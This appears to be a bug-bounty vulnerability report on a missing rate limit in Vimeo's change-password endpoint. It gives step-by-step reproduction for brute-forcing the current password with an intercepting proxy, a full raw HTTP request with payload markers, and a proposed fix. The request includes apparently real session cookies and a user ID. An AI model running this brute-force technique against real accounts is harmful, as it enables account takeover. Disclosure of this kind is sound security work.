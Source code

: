 ## Summary:
Given that a victim's session may have been hijacked by a hacker, their is an additional layer of security provided by vimeo that if user want to change password then he/she will have to put old password inorder to change new password but their is security vulnerability by which hacker can bypass this security feature

**Description:** This security flaw would allow a hacker to entirely take over a victim's account if they were able to reset the victim's password by bypassing the old password using the unrestricted rate limit or bruteforcing in the password for users who had their vimeo session hijacked.

## Steps To Reproduce:
 1. Go to https://vimeo.com/
 2. Go to setting [My Settings on Vimeo](https://vimeo.com/settings/account/password)
 3. Go to "password" option
 4. Enter any random string in old password and put new password in "new password option" 
 5. Intercept the request the above request and send it to intruder 
 6. Then select the position old password 
```
POST /settings?action=change_password HTTP/1.1
Host: vimeo.com
Cookie: vuid=pl1317212593.1817348053; language=en; OptanonConsent=isGpcEnabled=0&datestamp=Wed+Jun+08+2022+12%3A30%3A34+GMT%2B0530+(India+Standard+Time)&version=6.29.0&isIABGlobal=false&hosts=&landingPath=NotLandingPage&groups=C0001%3A1%2CC0002%3A1%2CC0003%3A1%2CC0004%3A1&AwaitingReconsent=false&geolocation=IN%3BUP; _gcl_au=1.1.1950390668.1654350668; __pdst=baf3a13b76eb461ebf27fa2d325a6b60; sd_client_id=e69a294a-a674-4918-adc2-3aeee7f600af; _scid=5c3186b5-6928-4c8e-8717-06e9448acc9c; _rdt_uuid=1654350668176.f592fe41-863c-4efc-a153-6ea897178d95; _sctr=1|1654281000000; _ga=GA1.2.603165134.1654350670; _fbp=fb.1.1654350670730.416760242; _clck=15i8w1s|1|f25|0; afUserId=288255cf-2310-4fd9-91e7-71c535db07fc-p; AF_SYNC=1654350672365; _abexps=%7B%22202%22%3A%22no%22%2C%221057%22%3A%22false%22%2C%221462%22%3A%22variant_screen%22%2C%222363%22%3A%22variant%22%7D; _cc_id=1b2c5674237db73e5fdbee0c3bb44b11; panoramaId_expiry=1654955769068; panoramaId=3f364c3b801bdb2e2223444ba6f216d53938a1648ea28542831bc8efbf9311a7; vimeo_gdpr_optin=1; OptanonAlertBoxClosed=2022-06-08T07:00:34.635Z; _ga_126VYLCXDY=GS1.1.1654351010.1.1.1654351510.51; vimeo_cart=%7B%22pro%22%3A%7B%22store%22%3A%22pro%22%2C%22version%22%3A1%2C%22quantities%22%3A%7B%221174154%22%3A1%7D%2C%22items%22%3A%5B%7B%22id%22%3A1174154%7D%5D%2C%22attributes%22%3A%5B%5D%2C%22currency%22%3A%22USD%22%2C%22items_sorted_by_index%22%3A%5B%5D%7D%2C%22stock%22%3A%7B%22store%22%3A%22stock%22%2C%22version%22%3A1%2C%22quantities%22%3A%5B%5D%2C%22items%22%3A%5B%5D%2C%22attributes%22%3A%5B%5D%2C%22currency%22%3A%22USD%22%2C%22items_sorted_by_index%22%3A%5B%5D%2C%22items_count%22%3A0%7D%7D; has_logged_in=1; __ssid=9511cc98-3a97-4819-bf50-2f305ebe367e; _gd_svisitor=edefc817ff2b0000996a9b629101000085932900; _gd_visitor=8945d826-5dd5-4e93-862a-c312ee0059db; _an_uid=5472215238642038706; drift_aid=c276d31a-3630-4265-8e46-70275e2b61c1; driftt_aid=c276d31a-3630-4265-8e46-70275e2b61c1; _abexps=%7B%22202%22%3A%22no%22%2C%221057%22%3A%22false%22%2C%221462%22%3A%22variant_screen%22%2C%222363%22%3A%22variant%22%7D; _delighted_web={%22j9SrNrucuaGn962P%22:{%22_delighted_fst%22:{%22t%22:%221654352753313%22}}%2C%22ekKsM8q7hLDyvv83%22:{%22_delighted_fst%22:{%22t%22:%221654353028149%22}}%2C%223OqDOZpD8s1OHjxk%22:{%22_delighted_fst%22:{%22t%22:%221654671111070%22}}%2C%220dqrnAdbjwmpQwv9%22:{%22_delighted_fst%22:{%22t%22:%221654671111084%22}}}; has_uploaded=1; AMCV_98CF678254E93B1B0A4C98A5%40AdobeOrg=1176715910%7CMCMID%7C32549739646301682810626772471949989778%7CMCAAMLH-1655270211%7C12%7CMCAAMB-1655270211%7C6G1ynYcLPuiQxYZrsz_pkqfLG9yMXBpb2zX5dvJdYQJzPXImdj0y%7CMCOPTOUT-1654672611s%7CNONE%7CvVersion%7C5.4.0; __cf_bm=OmWrzyb1_6WVUoxk6JexzX2v_hpP9LzX3Y7GMo2py9k-1654671082-0-AcBBoknXccs2occR1fJofr8P92+ANsz0diIizRD6O8juMayW5Wie/2omBTZ0nVa9XwqSngIB2pT/ffzQtGZWKBo=; sd_identity={"userId":"177584421","traits":{"email":"177584421","userId":"177584421","properties":{"sfmc":{"primarySubscriberKey":"177584421"}}}}; recent_gtm_event=pageURL: https://vimeo.com/ | clickText: undefined | clickURL: https://vimeo.com/user177584421; _gid=GA1.2.729005017.1654671087; vimeo=OHLZZetddDLMVHLXedXZLLL4MxHLaNPLdLeLL3tdL4%2CX3XaZLDdPae%2CcZa%2CPXcZ%2C3S3MiwiViN5_59biw_ViY3HLXedXZLLL4M5i_Ic9j3H9ubNwizNVi9wMIHdSX3eXecSZ3LtdB4%2CB334d3L%2CL%2CtcaDBteDdeZ%2CZ4Pee%2CaXZcte4Z3eecPN%2CtPX3; is_logged_in=1; _clsk=780rgh|1654671647171|3|1|www.clarity.ms/eus-f/collect; _uetsid=6885ee80e6f711ec9ca553fdbf45ef62; _uetvid=62ab0560e40d11ec85d5fd536a7b683a
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:101.0) Gecko/20100101 Firefox/101.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://vimeo.com/settings/account/password
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Origin: https://vimeo.com
Content-Length: 175
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers
Connection: close

current_password=§rYiR%23FV!c665J7w§&new_password=rYiR%23Fwww665J7w5&new_password_confirm=rYiR%23www665J7w5&token=e874a7c6525754792bb46827ff79c52504b9571e.jfovb98x80.1654671636
```     
 8. Go to payload and list of password 
 9. Their is no rate limite  so, you can pass large list of password and guess the password and can easly update old password.

**Solution** add Rate Limitation or captcha

This is a severe security flaw since it might allow a hacker to entirely take control of a user's account by circumventing  vimeo's security protocol. They could use this technique to bypass the password and completely take control of the victim's account.